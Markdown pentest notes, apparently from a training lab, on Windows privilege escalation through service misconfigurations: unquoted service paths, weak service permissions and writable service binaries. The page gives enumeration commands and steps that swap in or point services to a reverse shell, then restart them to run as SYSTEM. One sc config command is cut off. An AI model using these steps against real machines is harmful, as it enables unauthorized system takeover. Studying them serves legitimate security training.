# Services Misconfiguration

### Unquoted service path

Find a service with an unquoted service path and starting as SYSTEM

<figure><img src="../../../.gitbook/assets/Pasted image 20230503145353.png" alt=""><figcaption></figcaption></figure>

Note that you can write to the 'Program Files/unquoted Path Sevice/' directory. Copy the reverse shell you created into this directory and rename it as 'Common.exe'. Restart the service.

```POWERSHELL
net start unquotedsvc
```

### Unsecure service permission

#### Enumeration

```powershell
accesschk.exe /accepteula -uwcqv <USER> <SERVICE>
```

<figure><img src="../../../.gitbook/assets/Pasted image 20230503143654.png" alt=""><figcaption></figcaption></figure>

#### Exploitation

{% hint style="warning" %}
Watch out for the Start and Stop permissions (service restart).
{% endhint %}

In this case, there is permission to change the service's configuration

**SERVICE\_CHANGE\_CONFIG**

query the service

```
powershell sc qc daclsvc
```

The service runs as SYSTEM (SERVICE\_START\_NAME). Modify the BINARY\_PATH\_NAME to point to a reverse shell or a custom script.

```
powershell sc config daclsvc binpath= "\"
```

and restart the service

```
powershell net start daclsvc
```

### Insecure sevice executable

#### **Enumeration**

See the service

```powershell
sc qc <NOME>
```

Note that it runs as System (SERVICE\_START\_NAME). Note that the service binary is writable (BINARY\_PATH\_NAME)

```powershell
C:\PrivEsc\accesschk.exe /accepteula -quvw "<PATH>"
```

#### **Exploitation**

Copy a reverse shell and overwrite the file

```powershell
copy C:\PrivEsc\reverse.exe "<PATH>" /Y
```

Restart the service

```powershell
net start <Name>
```
